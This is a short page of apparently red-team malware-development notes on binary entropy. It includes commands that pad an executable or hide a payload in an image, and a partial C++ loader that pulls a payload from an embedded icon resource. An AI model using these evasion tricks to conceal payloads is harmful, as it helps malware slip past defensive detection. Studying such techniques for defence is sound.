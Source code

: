 ```yaml
---
title: Binary Entropy
category: Maldev-Basis
order: 6
---
```


Binary entropy is a concept used in information theory to measure the randomness or uncertainty of a binary sequence. 
In the context of detecting malware, binary entropy can be used to analyze the characteristics of a binary file and determine whether it exhibits suspicious or malicious behavior.

Looking the entropy the encrypted payload can be easily detected.

We can see the binary entropy of a file with `Helenium Hex Editor` software.

As an example here we can see a basic loader that has mimikatz encrypted.

![](/rtnotes/images/entropy-mimi.png)


There are some tricks to bypass entropy defensive measures.

* Concatenate a legitimate dll.

```
type c:\Windows\System32\kernel32.dll >> bin.exe
```

* Use a image and load it from resources.

```
type payload.bin >> a.jpg
```

> **Note**: We need to know the original size of the image.


Example of loading the payload appended to an image from `.rsrc` section.

```cpp
#include <Windows.h>
#include "resources.h"
#include <stdio.h>

#define IMAGE_LEN  196676 //len in bytes of the original image

int main(int argc, char ** argv) {

    PVOID lpAddress;
    SIZE_T sDataSize;
    HGLOBAL resHandle = NULL;
	HRSRC res;

    //Read Payload from favicon.ico
    unsigned char * payload;
	unsigned int payload_len;
    res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (unsigned char *) LockResource(resHandle) + IMAGE_LEN;
	payload_len = SizeofResource(NULL, res) - IMAGE_LEN;
    sDataSize = payload_len;

    return 0;
}
```